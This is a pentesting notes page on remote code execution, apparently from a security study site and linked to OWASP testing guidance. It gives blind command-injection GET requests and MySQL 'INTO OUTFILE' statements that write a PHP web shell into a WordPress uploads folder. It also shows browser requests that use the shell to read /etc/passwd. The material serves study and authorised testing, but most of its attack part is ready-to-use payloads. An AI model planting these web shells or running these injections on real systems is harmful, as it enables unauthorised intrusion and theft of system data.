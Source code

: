 ```yaml
---
title: RCE attack - Remote Code Execution
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# RCE attack - Remote Code Execution

??? quote "OWASP"
		[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.8. Testing for SSI Injection

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|7.8|[WSTG-INPV-08](../OWASP/WSTG-INPV-08.md)|[Testing for SSI Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection)|- Identify SSI injection points (Presense of .shtml extension) with these characters:  < ! # = / . " - > and [a-zA-Z0-9]  - Assess the severity of the injection.|


_RCE_ attacks involve attackers manipulating network traffic by exploiting code vulnerabilities to access a corporate system.

Exploiting Blind Remote Execution Vulnerability attack in a GET request in BurpSuite (to run the queries) and Wireshark (to capture the traffic).

```
________
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
Host 192.168.137.130
User Agent....
...
________
```


Also other command:

```
GET /script.php?c=ping+192.168.139.130+-c+5&ok=ok HTTP/1.1
```



## Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

Now code can be executed from the browser: 

```
https://example.com/blogblog/wp-content/uploads/shell.php?cmd=cat+/etc/passwd
```

One more example:

```mysql
Select "<?php $output=shell_exec($_GET['cmd']);echo "<pre>".$output."</pre>"?>" into outfile "/var/www/https/shell.php" from mysql.user limit 1;
```

Now code can be executed from the browser: 

```
https://example.com/shell.php?cmd=cat+/etc/passwd
```